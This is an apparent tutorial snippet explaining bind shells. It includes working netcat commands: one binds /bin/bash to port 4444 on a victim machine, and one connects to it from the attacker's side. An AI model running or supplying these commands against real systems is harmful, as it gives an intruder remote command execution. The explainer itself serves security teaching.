 A **bind shell** is when the **target system opens a port** and waits for the attacker to connect to it.
### **How It Works:**
1. The attacker exploits the target and makes it **"bind" a shell** to a specific **port** (e.g., 4444).
2. The attacker then connects to that port from their own system.
3. Once connected, they get a shell and can run commands on the target machine.
### **Example:**
- The attacker runs a command on the victim machine:
    ```bash
    nc -lvp 4444 -e /bin/bash
    ```
    (This opens a shell on **port 4444** and waits for connections.)
- The attacker connects from their machine:
    ```bash
    nc 192.168.1.20 4444
    ```
    (Now the attacker has control.)
### **When to Use It?**
- When the target has an **open port** that is not blocked by a firewall.
- Less commonly used because **firewalls often block incoming connections**.
